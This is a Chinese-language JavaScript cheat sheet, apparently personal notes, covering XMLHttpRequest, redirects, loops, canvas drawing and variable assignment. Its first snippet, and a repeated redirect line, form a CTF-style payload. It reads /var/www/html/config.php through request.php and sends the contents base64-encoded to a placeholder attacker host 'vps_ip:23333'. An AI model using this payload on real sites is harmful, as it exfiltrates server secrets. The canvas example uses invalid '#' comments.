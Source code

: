 # javascript

## 访问网页

### XMLHttpRequest

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
```



#### 带着cookie访问

`XMLHttpRequest.withCredentials=true;`



### fetch





## 重定向

` document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);`



## 手册

 https://developer.mozilla.org/ 

 https://www.w3schools.com/ 



## 循环

```javascript
var img = new SimpleImage(200, 200);
for(var pixel of img.values())
{//pixel是img.values()的引用
    pixel.setRed(255);
    pixel.setGreen(255);
    pixel.setBlue(0);
}
print(img);
```





## canvas操作

```javascript
var canvas=document.getElementById("show2");
var context = canvas.getContext('2d');
#init
context.clearRect(0, 0, canvas.width, canvas.height);
#clear canvas
context.font = "30px Arial";
context.fillText("Hello World", 10, 50);
#draw a text


context.fillStyle = "red";
context.fillRect(10, 10, 150, 80);
#draw rectangle
```



## 变量赋值(注意点)

当变量是数字和字符串的时候,会生成一个拷贝,再赋值给目标

但如果对象是数组和对象时,这会将引用赋值给目标,此时修改新变量也会影响到旧变量



## 向 无参callback function 传参

```javascript
function createCallback(x, m) {
    return function() {
        /* Do whatever */
    };
}
xhttp.onreadystatechange = (function(x, m) {
    return function() {
        /* Do stuff */
    }
})(xhttp, msg);
```



